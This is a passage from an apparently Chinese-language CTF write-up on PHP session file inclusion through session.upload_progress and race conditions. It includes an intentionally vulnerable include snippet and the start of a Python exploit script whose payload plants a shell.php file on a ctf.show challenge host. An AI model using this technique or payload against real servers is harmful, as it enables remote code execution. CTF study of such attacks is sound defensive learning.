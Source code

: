 现在可以通过post传参传入1=localhost/tmp/sess_ctfshow包含这个session文件

![4](https://the0n3.top/medias/session-include/4.png)

讲到现在有什么疑惑吗。？

它的session文件没有被清除？

::: warning
session.upload_progress.cleanup = on //表示当文件上传结束后，php将会立即清空对应session文件中的内容
:::

这个脚本并没有条件竞争功能，它的session文件在伪造的文件上传后，没有并被清空

::: tip
session文件是有生命周期的，一般是24分钟，但是他只是会过期，并不会删除，这么说可以一直利用？
:::

这一题比较特殊，通过后期getshell查看phpinfo()函数时可以看到配置项**session.upload_progress.cleanup**是关的，应该是群主改了，好大的雷，趁热打铁复现时卡死我了，才去了解这个配置项

![3](https://the0n3.top/medias/session-include/3.png)

## 条件竞争

### post表单类型

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_POST[1];
```

::: tip
session.upload_progress.cleanup=On # 一般都是开启的，文件上传后会清空session文件，清空后你再包含就达不到目的了
:::

通过条件竞争，在session文件没有被清空时包含并执行，直接食用或者生成小马都行

```python

import requests
import threading
import time

# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php phpinfo();?>");?>',
    # session文件路径可能不同
    '1': '/tmp/sess_' + sessionid,
}

file = {
    'file': sessionid
}

cookies = {
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
```